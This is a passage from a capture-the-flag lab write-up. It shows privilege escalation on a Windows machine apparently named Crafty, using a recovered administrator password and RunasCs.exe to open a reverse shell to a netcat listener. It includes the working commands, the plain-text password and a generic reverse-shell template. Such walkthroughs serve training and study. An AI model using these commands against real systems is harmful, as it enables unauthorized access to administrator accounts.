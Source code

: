 So the `Playercounter.class` has a rcon method which has a unique string. Seems like a password. This box doesn't have any other ports open than just port 80 and Minecraft port. I will use [RunAsC](https://github.com/antonioCoco/RunasCs) 

```
PS C:\> copy \\10.10.14.4\a\RunasCs.exe C:\tmp\RunasCs.exe
copy \\10.10.14.4\a\RunasCs.exe C:\tmp\RunasCs.exe
PS C:\> cd tmp
cd tmp
PS C:\tmp> dir
dir


    Directory: C:\tmp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        5/19/2023   3:37 PM          51712 RunasCs.exe                                                           


PS C:\tmp> .\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.4:5555
.\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.4:5555

[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: WinSta0\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 1004 created in background.
PS C:\tmp> 
```

While the NetCat is running on port 5555

```
$ nc -lvnp 5555           
listening on [any] 5555 ...

connect to [10.10.14.4] from (UNKNOWN) [10.10.11.249] 49683
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
C:\Windows\system32>whoami
whoami
crafty\administrator
```
Get your root flag.
### Lesson Learned

1.  Log4J PoC needs modification to run
2.  When SMB, LDAP, Kerberos or WinRM is not present, you will use `RunasCs.exe` to run Administrative Shell. The command to use is `.\RunasCs.exe <Admin> <Admin_Pass> cmd -r <kali_ip>:port`. 
